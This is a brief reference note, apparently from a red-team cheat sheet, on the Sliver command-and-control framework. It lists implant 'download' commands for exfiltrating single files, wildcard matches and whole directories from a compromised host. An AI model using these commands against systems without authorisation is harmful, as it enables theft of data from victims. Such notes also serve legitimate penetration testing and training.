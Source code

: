 # Sliver

Search Tags: #post-exploitation #file-transfer-and-data-exfiltration #command-and-control #sliver

## Download Files

* Download single file.

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/file.txt /path/to/local/directory/`

- Download multiple files using wildcard.

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/*.txt /path/to/local/directory/`

- Download multiple files in a directory recursively.

`sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/`

- Download the whole directory. It'll compress into a tarball archive file (`.tar`).

`sliver (IMPLANT NAME) > download [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/`